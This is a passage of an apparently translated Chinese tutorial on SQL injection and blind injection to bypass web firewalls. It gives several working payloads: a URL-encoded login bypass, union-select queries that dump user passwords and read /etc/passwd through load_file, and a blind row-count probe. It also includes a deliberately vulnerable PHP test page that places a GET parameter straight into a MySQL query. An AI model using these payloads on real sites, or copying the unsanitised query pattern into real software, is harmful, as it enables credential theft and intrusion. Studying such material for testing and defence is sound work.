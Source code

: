 ```
http://127.0.0.1/login.php?id=%27%a0%6f%72%a0%31%3d%31%23&password=1234 
```

这一次，我将展示盲注的攻击方法，这种攻击可以绕过 web 防火墙过滤器，但一些攻击者倾向于认为盲注不可能实现登录。所以我决定展示这个例子。

下面的攻击代码能被用来登录页面且页面将显示 ID 和密码

```
'union select 1,group_concat(password),3 from users# 
```

这个攻击代码将显示/etc/password 的内容。

```
'union select 1,load_file(0x2f6574632f706173737764),3 from users# 
```

我敢说在盲注中不使用 union select 也是可以的。

记录的结果有三个。

```
admin' and (select count(*) from users)=3# 
```

让我们使用盲注绕过 web 防火墙。以下是一份有存在盲注漏洞的代码

```
<?php

  /*** info.php ***/

  $n = $_GET['num'];
  if(empty($n)){
    $n = 1;
  }

  $dbhost = 'localhost';
  $dbuser = 'root';
  $dbpass = 'root';
  $database = 'injection_db';

  $db = mySQL_connect($host, $dbuser, $dbpass);
  mySQL_select_db($database,$db);
  $SQL = mySQL_query("select * from `users` where num=".$n) or die (mySQL_error());
  $info = @mySQL_fetch_row($SQL);
  echo "<body bgcolor=#000000>";
  echo "<h1><font color=#FFFFFF>wh1ant</font>";
  echo "<font color=#2BF70E> site for blind SQL injection test</h1><br>";
  echo "<h1><font color=#2BF70E>num: </font><font color=#D2691E>".$info[0]."</font></h1>";
  echo "<h1><font color=#2BF70E>user: </font><font color=#D2691E>".$info[1]."</font>";
  echo "<body>";
  mySQL_close($db);

?>

```
